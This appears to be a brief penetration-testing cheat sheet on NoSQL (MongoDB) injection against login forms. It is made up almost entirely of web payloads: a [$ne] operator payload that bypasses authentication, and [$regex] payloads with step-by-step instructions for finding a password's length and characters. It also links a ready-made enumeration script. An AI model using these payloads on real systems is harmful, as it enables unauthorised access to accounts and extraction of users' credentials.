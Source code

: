 As always : payloadallthethings

## Bypass authentication 

```username[$ne]=toto&password[$ne]=toto```

## Extract length information :
```username[$ne]=toto&password[$regex]=.{1}```
1. Increase the number until the request change
2. Same principle to search the length of a username

## Find characters in NoSQL
```username[$ne]=toto&password[$regex]=m.*```
or 
```username[$ne]=toto&password[$regex]=m.{length}```

- Ready script, or write your own :) : https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration
